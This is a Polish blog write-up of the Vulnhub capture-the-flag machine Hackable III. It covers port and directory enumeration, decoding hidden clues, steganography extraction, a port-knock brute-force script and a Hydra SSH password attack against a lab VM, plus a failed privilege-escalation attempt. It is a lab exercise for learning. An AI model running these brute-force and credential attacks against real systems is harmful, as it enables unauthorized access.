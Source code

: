 ```yaml
---
title: "Hackable: III - in progress"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/06/01.png
    image_path: /assets/images/hacking/2021/06/01.png
  - url: /assets/images/hacking/2021/06/02.png
    image_path: /assets/images/hacking/2021/06/02.png
gallery3:
  - url: /assets/images/hacking/2021/06/03.png
    image_path: /assets/images/hacking/2021/06/03.png
gallery4_5:
  - url: /assets/images/hacking/2021/06/04.png
    image_path: /assets/images/hacking/2021/06/04.png
  - url: /assets/images/hacking/2021/06/05.png
    image_path: /assets/images/hacking/2021/06/05.png
---
```

# Wstęp
[Hackable III](https://www.vulnhub.com/entry/hackable-iii,720/)  jest najnowszą maszyną od [Eliasa Soulsa](https://www.vulnhub.com/author/elias-sousa,804/) (stan na lipiec 2021). Oznaczona jest poziomem **medium**. Nie jest tak łatwa, jak opisywane wcześniej maszynki. Jest bardzo podchwytliwa i straciłem nad nią dosyć dużo czasu, ale człowiek uczy się całe życie. Metasploita będę używał, ale nie jest on tutaj głównym narzędziem. Mała uwaga, na XCP-ng musisz nazwę interfejsu sieciowego zmienić w dwóch miejscach. Rozwiązanie podaje na końcu, gdyż to może komuś zepsuć zabawę.
{: .text-justify}
## Zaczynamy
```bash
msf6 > db_nmap -A -p- 172.16.1.103
host          port  proto  name  state     info
----          ----  -----  ----  -----     ----
172.16.1.103  22    tcp    ssh   filtered
172.16.1.103  80    tcp    http  open      Apache httpd 2.4.46 (Ubuntu)
```
Mamy dwa porty, 80 i 22. Jeden jest filtrowany. Zacznijmy od www. Wchodząc na stronę mamy takie coś (Kierujemy się na górny lewy róg) i mamy menu.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
Logowanie nic nam nie daje. W kodzie źródłowym (http://172.16.1.103/login_page/login.html) jest informacja, że to może do końca nie działać: *This page is not ready, may give error*. Bawiąc się Burpsuitem i odpalając powyższy link, Burpsuite kieruje nas do  http://172.16.1.103/login.php, a tam jest coś dziwnego, zamiast wyniku z logowania, dostajemy kod źródłowy w PHP. Z początku myślałem, że to jest ułatwienie dla pentestera i PHP nam wyświetla tę informacje, żeby ułatwić zadanie, ale nie. Niezależnie jakie parametry podasz, to jest zwykły kod w HTML-u, tyle że ma rozszerzenie php! Na nic się zda wstrzykiwanie parametrów. Zanim do tego doszedłem minęło trochę czasu, ale to był ciekawy pomysł autora.
{: .text-justify}
{% include gallery id="gallery3"  %}
Sprawdźmy co jest jeszcze na na tym serwerze www:
{: .text-justify}
```bash
root@kali:/home/szikers# gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.16.1.103 -x php,txt,html,htm,png,jpg,
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html,htm,png,jpg,
[+] Timeout:                 10s
===============================================================
2021/07/30 18:44:19 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1095]
/home.html            (Status: 200) [Size: 11327]
/login.php            (Status: 200) [Size: 487]
/3.jpg                (Status: 200) [Size: 61259]
/css                  (Status: 301) [Size: 310] [--> http://172.16.1.103/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.1.103/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.1.103/config/]
/config.php           (Status: 200) [Size: 507]
/backup               (Status: 301) [Size: 313] [--> http://172.16.1.103/backup/]
/robots.txt           (Status: 200) [Size: 33]
/imagens              (Status: 301) [Size: 314] [--> http://172.16.1.103/imagens/]
/login_page           (Status: 301) [Size: 317] [--> http://172.16.1.103/login_page/]
/server-status        (Status: 403) [Size: 277]

===============================================================
2021/07/30 18:48:55 Finished
=============================================================== 
```
## Zawartość
**http://172.16.1.103/backup/**

wordlist.txt – pewnie hasła użytkowników
{: .notice--info}
**http://172.16.1.103/config/**

1.txt - tekst zakodowany w Base64 **MTAwMDA=**
{: .notice--info}
Szybkie dekodowanie:
```bash
echo MTAwMDA= | base64 -d
10000
```
**http://172.16.1.103/css/**

2.txt – tutaj mamy kod w Brainfuck. Można to odkodować poprzez stronę, albo przez program Beef.
**++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....**
{: .notice--info}
```bash
root@kali:/home/szikers# beef 2.txt
4444
```
**http://172.16.1.103/3.jpg**

3.jpg - jest to plik graficzny, a w nim pewnie ukryty przekaz. Nie miałem wcześniej do czynienia z łamaniem obrazków, więc nie rozkminiłem tej zagadki, ale Elias Sousa mi podpowiedział. 
{: .notice--info}
Binwalk nie znalazł nic ciekawego.
```bash
root@kali:/home/szikers/hackable3/3# binwalk 3.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

```
Za to Steghide już coś pokazał:
```bash
root@kali:/home/szikers/hackable3/3# steghide info 3.jpg
"3.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "steganopayload148505.txt":
    size: 12.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
root@kali:/home/szikers/hackable3/3# steghide extract -sf 3.jpg
Enter passphrase:
wrote extracted data to "steganopayload148505.txt".
root@kali:/home/szikers/hackable3/3# cat steganopayload148505.txt
porta:65535 root@kali:/home/szikers/hackable3/3#
root@kali:/home/szikers/hackable3/3#
```
Przy okazji mamy podpowiedź, że chodzi o **port** 65535:
{: .text-justify}
Podsumowując mamy:
- 10000
- 4444
- 65535

## Knockd 
Zanim znalazłem trzecią cyfrę w obrazku, użyłem metody brute-force. Jest ona powolna i robiona na siłę, ale działa.
{: .text-justify}
{: .notice--info}
Spróbowałem wejść przez Ssh, ale była blokada. Jeszcze raz przejrzałem kody, przeczytałem notatkę: *Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com*  i nagle mnie olśniło. Do blokowania Ssh używa się Knockd (Trzeba zainstalować w Kali). Bez podania odpowiednich „zapukań” dostęp do Ssh będzie utrudniony. Zazwyczaj podaje się 3 parametry w przeciągu 5 sekund. Dwa pierwsze mamy. 10000 i 4444. Trzeci być może gdzieś jest w tej maszynie, szukałem w pliku 3.jpg, ale nie znalazłem (jak znajdę, zmienię ten wpis). Nie mamy trzeciego numeru, ale możemy spróbować bruteforce, chociaż to może potrwać parę dni. Jest 65536 możliwości (0-65535) na trzeci numer. Napisałem szybko skrypcik.
{: .text-justify}
```bash
#!/bin/bash
for i in {0..65535}; do
knock -v 172.16.1.103 10000 4444 $i
sleep 5
done
#--------- 
```
I co? Nie działa (prawdę mówiąc nie czekałem tyle dni). Niestety to była wina maszyny i XCP-ng. Znalazłem w logach, że knockd nasłuchiwał na ensp03, zamieniłem na eth0. Po zakończeniu działania powyższego skryptu Ssh działał! Użytkownikiem zapewne jest **jubiscleudo**, a hasło pewnie jest w **wordlist.txt**. Użyjmy Hydry:
{: .text-justify}
```bash
hydra -V -T 64 ssh://172.16.1.103 -l jubiscleudo -P wordlist.txt

[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "maria" - 204 of 303 [child 15] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "onlymy" - 205 of 303 [child 13] (0/3)
[ATTEMPT] target 172.16.1.103 - login "jubiscleudo" - pass "gabriela" - 206 of 303 [child 4] (0/3)
...
[22][ssh] host: 172.16.1.103   login: jubiscleudo   password: onlymy
```
## Shelltris
W katalogu **scripts** jest plik **tetris.sh**. Po uruchomieniu brakuje w nim pliku getch i program blokuje cały system. Popatrzyłem na kod źródłowy i zobaczyłem, że oryginalny nazywa się **ShellTris**. Ściągnałem cały [kod](https://shellscriptgames.com/shelltris/tarballs/shelltris-1.1.tar.gz). Skompilowałem na swoim shellu plik **getch.c**. I nic. Nie ma root-a. Pliki mają identyczną zawartość, ale być coś może nasłuchuje i sprawdza? (Elias Souls mi wspomniał, że Shelltris to pułapka. 😏) Być może za jakiś czas rozwiążę problem, jak nie, to pewnie zrobi to ktoś inny. Jeżeli znalazłeś rozwiązanie to napisz [kerszi@protonmail.com](mailto:kerszi@protonmail.com). 
{: .text-justify}
{% include gallery id="gallery4_5"  %}
Uwaga, jeżeli chcesz, żeby ta maszyna działała na XCP-ng trzeba podczas startu systemu zmienic w Grubie ro na rw init=/bin/bash, potem F10, w /etc/netplan/00-installer-config.yaml zmieniamy na interfejs eth0. Dodatkowo należy zmienić w /etc/default/knockd na KNOCKD_OPTS="-i eth0".
{: .text-justify}
{: .notice--danger}
